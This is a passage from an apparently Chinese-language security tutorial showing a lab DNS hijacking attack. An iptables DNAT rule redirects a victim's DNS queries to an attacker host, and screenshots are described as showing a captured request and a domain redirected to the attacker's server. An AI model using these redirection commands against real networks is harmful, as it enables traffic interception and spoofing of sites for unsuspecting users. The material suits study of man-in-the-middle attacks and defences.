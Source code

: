 此时我们利用 iptables 对受害者的流量进行重定向，将其访问 192.168.243.2:53 端口的流量重定向至攻击者 192.168.243.129:53

```plain
iptables -t nat -A PREROUTING -p udp --dport 53 -d 192.168.243.2 -j DNAT --to-destination 192.168.243.129:53

检查 nat 表、过滤表规则是否还存在：
iptables -t nat -L
iptables -L
# 删除命令
iptables -t nat -D PREROUTING -p udp --dport 53 -j REDIRECT --to-port 5353
iptables -t nat -D PREROUTING -p udp --dport 53 -d 8.8.8.8 -j DNAT --to-destination 127.0.0.1:53
```

受害人访问百度，可以发现攻击者截获了受害人的 dns 请求

[![](assets/1701606977-3ee63c7b11dc90020b674042a5122fd8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923200143-f676d06a-5a08-1.png)

将指定域名劫持至攻击者服务器

[![](assets/1701606977-7fcfd3f6f92f6c1f210e5bb78dd60f52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923200153-fc6e480e-5a08-1.png)

当然，如果受害人使用了 https，伪造 https 站点会导致证书错误

[![](assets/1701606977-3611313c8cc98427650f1a0f07129dc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923200159-ffaf8bd6-5a08-1.png)
